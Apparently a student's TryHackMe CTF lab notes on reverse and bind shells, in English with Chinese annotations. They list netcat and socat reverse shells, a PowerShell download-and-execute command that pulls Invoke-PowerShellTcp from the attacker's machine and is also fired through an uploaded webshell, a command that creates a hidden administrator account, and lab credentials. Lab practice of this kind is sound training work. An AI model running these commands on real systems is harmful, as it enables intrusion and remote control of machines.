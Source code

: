 		--> kali : nc -lvnp 8888
		--> after nc => uploads it
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 3:
		--> login : ssh shell@10.10.198.111 | TryH4ckM3!
			--> nc 10.11.92.230 7777 -e /bin/bash
			--> nc -lvnp 7777
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 4: 
		--> 使用 Socat  : Reverse Shell
		-->ssh  :  socat TCP:10.11.92.230:7777 EXEC:"bash -li"
		-->kali :  socat TCP-L:7777 - 
			
		--> type command on kali will run on ssh *
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 5:
		--> 反向 shell 技術 :
			--->  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Windows 2019 Server  :
	--> Username: Administrator | Password: TryH4ckM3!
	--> login using RDP : 
		--> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:xx.xx.xx.xx /u:Administrator /p:'TryH4ckM3!'
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> PS C:\Users\Administrator>	// in RDP's Administrator cmd 
		
		--> 1. python3 -m http.server 9999
		--> 2. nc -lnvp 1234
		--> 3. powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.11.92.230:9999/2024_5_CTF/try_hack_me/Jr_Penetration_Tester/task/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.11.92.230 -Port 1234"

	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 6:
		--> 上傳並激活php-reverse-shell 
			--> fail !!! Can't !!!
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 7:
		--> 上傳 Webshel​​l 並嘗試使用 Powershell 取得反向 shell
			=>PS C:\xampp\htdocs\uploads>
			
		--> http://10.10.42.131/uploads/webshell.php?cmd=ipconfig
		--> nc -lvnp 2345
		--> python3 -m http.server 9999
			
		--> ?cmd=powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.11.92.230:9999/2024_5_CTF/try_hack_me/Jr_Penetration_Tester/task/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.11.92.230 -Port 2345"
			
		--> Invoke-PowerShellTcp  :
			-->  https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
		10.10.38.232 443 -e
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 8:
		--> 建立一個新使用者並將其新增至「管理員」群組
			--> net user CJTest TryH4ckM3! /add
			--> net localgroup administrators CJTest /add
		--> RDP 登入
			--> Kali : xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.42.131 /u:CJTest /p:'TryH4ckM3!'
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 9: 試使用 socat 和 netcat 在 Windows 目標上取得反向和綁定 shell
		=> C:\Users\Administrator>
			